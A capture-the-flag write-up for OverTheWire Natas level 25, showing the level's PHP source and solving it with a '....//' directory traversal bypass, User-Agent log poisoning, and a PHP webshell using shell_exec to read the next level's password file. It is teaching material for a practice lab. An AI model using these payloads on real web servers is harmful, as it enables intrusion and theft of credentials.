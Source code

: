 # Natas
> Level : Natas Level 25<br/>
> Solved : 28th July 2021<br/>
> Remarks : Local File Inclusion + code Execution<br/>
<br/>

## Quest
We are presented with a webpage containing a badass Quote.

![](./images/Level25.png)

Backend Code for this page

```php
<?php
function setLanguage(){
    /* language setup */
    if(array_key_exists("lang",$_REQUEST))
        if(safeinclude("language/" . $_REQUEST["lang"] ))
            return 1;
    safeinclude("language/en"); 
}

function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...
    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
}
    
function listFiles($path){
    $listoffiles=array();
    if ($handle = opendir($path))
        while (false !== ($file = readdir($handle)))
            if ($file != "." && $file != "..")
                $listoffiles[]=$file;
    
    closedir($handle);
    return $listoffiles;
} 

function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```
<br/>

## Solution

Lets shift focus from awesomeness of the presented quote to finding password for the next Level.

Below is the Breakdown of relevant functions in Backend code.

The `setLanguage()` function

  - This function checks if `lang` parameter exists in our request and then includes that file using `safeinclude()`.<br/>
  - If not present, default file to include is `language/en`<br/>
        
The `safeinclude()` function

  - checks for Directory Traversal attacks, it finds and replaces `../` with empty string.<br/>
  - It also exits, when attempt is made to retrieve password file for next level (`/etc/natas_webpass/natas26`)<br/>
  - if above two checks are passed, it includes the file<br/>

The `logRequest()` function

  - This function logs error when `safeinclude` functions finds attack attempts<br/>
  - Notice that it directly embeds the clients `USER_AGENT` string in the log file. This can come handy later.<br/>
  - We have path of log file as `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`<br/>


Lets get to work now.

Firstly tried with the usual directory traversals payloads and got no luck (this was somewhat expected)

![](./images/Level25_solution.png)

After a while, turned to local machine to understand various PHP functions used in Backend code.

First lets see how `strstr` function works. `strstr` function finds first occurence of a string and returns the whole string starting from that occurence

```php
echo strstr('hello/../../../etc/passwd/../', '../');   # Output : ../../../etc/passwd/../
```

Next, lets see `str_replace` . It Replaces all occurrences of the search string with the replacement string.

```php
echo str_replace('../', '', '../../../../etc/passwd');  # Output : etc/passwd
```

Then i looked at if somehow i can bypass these functions, and it turns out that yes, it could be done.

See Below session

```php
# I tried different things to bypass str_relace functions and finally came up with this payload
echo str_replace('../', '', '....//....//....//....//etc/passwd');  # Output : ../../../../etc/passwd
```

So now, after `str_replace()` function runs, we can still slip in `../` characters and do Directory Traversal attack.

Below, we use this to see a file that we know exists -> `/var/www/natas/natas25/logs/natas25_<SESSIONID>.log`

![](./images/Level25.1_solution.png)

Above we have successfully conducted Directory Traversal attack, but still can't display password containing file `/etc/natas_webpass/natas26` becuase of the code logic.

We will now poison the log file with our webshell using the `User-Agent` header (handy!) and see if this works.

Webshell payload:
```php
<?php echo '<pre>' . shell_exec($_GET[ 'cmd']) . '</pre>';?>
```

![](./images/Level25.2_solution.png)


Now we have command execution, lets reveal the password for next Level

![](./images/Level25.3_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - 
  - 

<br/>
This one was satisfying to do

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
